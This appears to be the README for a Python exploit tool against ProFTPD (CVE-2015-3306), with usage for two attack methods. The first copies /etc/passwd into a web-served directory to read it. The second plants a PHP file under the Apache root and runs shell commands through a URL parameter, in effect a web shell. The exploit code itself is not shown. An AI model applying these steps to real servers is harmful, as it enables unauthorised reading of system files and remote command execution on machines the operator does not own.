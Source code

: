 # cpx_proftpd.py (by daldana)

Tool for exploit CVE-2015-3306

METHOD 1:
--------
usage: 
  python cpx_proftp.py 1 &lt;IP&gt; &lt;REMOTE_FULLPATH_SRC_FILE&gt; &lt;REMOTE_FULLPATH_DST_FILE&gt;

ex:
  python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt

then try:
  http://127.0.0.1/pass.txt

METHOD 2:
--------

usage: 
  python cpx_proftp.py 2 &lt;IP&gt; &lt;REMOTE_FULLPATH_APACHE2&gt;

ex:
  python cpx_proftp.py 2 127.0.0.1 /var/www/html

then try:
  http://127.0.0.1/xxx.php?img=ls
